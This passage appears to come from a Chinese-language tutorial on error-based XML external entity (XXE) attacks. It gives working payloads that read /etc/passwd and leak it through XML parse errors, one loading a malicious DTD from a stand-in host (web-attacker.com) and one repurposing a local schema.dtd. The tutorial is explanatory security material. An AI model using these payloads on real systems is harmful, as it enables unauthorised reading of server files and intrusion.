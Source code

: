 有时候可以使用恶意外部 DTD 触发包含/etc/passwd 文件内容的 XML 解析错误消息，如下所示：

```bash
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

该 DTD 执行以下步骤：

-   定义一个名为 file 的 XML 参数实体，包含/etc/passwd 文件的内容。
-   定义一个名为 eval 的 XML 参数实体，其中包含另一个称为 error 的 XML 参数的动态声明。将通过加载一个名称包含文件实体值的不存在的文件来获得错误实体内容。
-   使用 eval 实体，这将导致执行 error 实体。
-   通过执行 error 实体，以便通过尝试加载不存在的文件来带出目标文件的值，从而生成包含不存在文件的名称的错误消息，该文件是/etc/passwd 文件的内容。

使用以下命令调用：

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

将会看到 web 服务器响应的错误消息中文件的内容：

[![img](assets/1698894099-121f39352c589ae94d29c87787a1415e.png)](https://storage.tttang.com/media/attachment/2022/11/14/4a0f391d-8c07-4236-9c00-c4664d859317.png)

需要注意的是，外部 DTD 允许我们在第二个（eval）中包含一个实体，但在内部 DTD 中是禁止的。因此，通常如果不使用外部 DTD，就无法触发 Error Based XXE。

### [Error Based (系统实体)](#toc_error-based)

这种情况适用于是 Blind SSRF，同时上述方式不生效时。

原理是利用 XML 语言规范中的漏洞触发包含敏感数据的错误消息。如果文档的 DTD 同时存在内部和外部 DTD 声明，那么内部 DTD 可以重新定义在外部 DTD 中声明的实体。当这种情况发生时，在另一个参数实体的定义中使用 XML 参数实体的限制将被放宽。

这意味着攻击者可以在内部 DTD 中使用 error-based XXE 技术，前提是他们使用的 XML 参数实体正在重新定义外部 DTD 中声明的实体。当然，如果带外连接被阻止，则无法从远程位置加载外部 DTD。所以，它需要是应用程序服务器本地的外部 DTD 文件。本质上，该攻击就是操作存在于本地文件系统上的 DTD 文件，重新调整其用途，以触发包含敏感数据的解析错误的方式重新定义现有实体。

例如，假设服务器文件系统上的位置/usr/local/app/schema 处有一个 DTD 文件。dtd，该 dtd 文件定义了一个名为 custom\_entity 的实体。攻击者可以通过提交如下混合 DTD 来触发包含/etc/passwd 文件内容的 XML 解析错误消息：

```bash
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
    <!ENTITY % custom_entity '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
```
